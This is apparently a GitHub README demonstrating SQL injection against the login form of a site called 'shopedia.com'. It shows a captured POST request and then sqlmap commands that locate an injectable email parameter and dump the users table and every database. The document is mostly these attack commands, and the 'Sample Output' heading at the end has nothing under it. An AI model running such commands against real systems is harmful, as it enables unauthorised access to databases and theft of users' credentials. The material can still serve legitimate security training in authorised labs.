

# sqlmap Demonstration

## sqlmap for Shopedia Login

``` bash

# Using BURP to capture the POST request

#-------------------------------------------------------------
# POST /auth/login.php HTTP/1.1
# Host: shopedia.com
# User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
# Accept-Language: en-US,en;q=0.5
# Accept-Encoding: gzip, deflate
# Referer: http://shopedia.com/auth/login.php
# Content-Type: application/x-www-form-urlencoded
# Content-Length: 35
# Cookie: PHPSESSID=ceeo4j3ar1tlm9o51pg1tqkca1
# Connection: close
# Upgrade-Insecure-Requests: 1

# email=1%40gmail.com&password=123123
#-------------------------------------------------------------

# To find the injection point
sqlmap -r shopedia-login.post -p email
# type "y" to all
# type "n" fo the "testing the others(if any)" prompt if you do not want to continue with other parameters

# Find out the tables in the current database
sqlmap -r shopedia-login.post -p email --dump

# Dump records within a specified table of the specified database
sqlmap -r shopedia-login.post -p email -D shopedia -T users --dump

# Dump all the tables in all databases
# Will take a while
sqlmap -r shopedia-login.post -p email  --dump-all

# Depending on the type of error found, the database dump may take a varying amount of time.

```

### Sample Output for the User table data dump

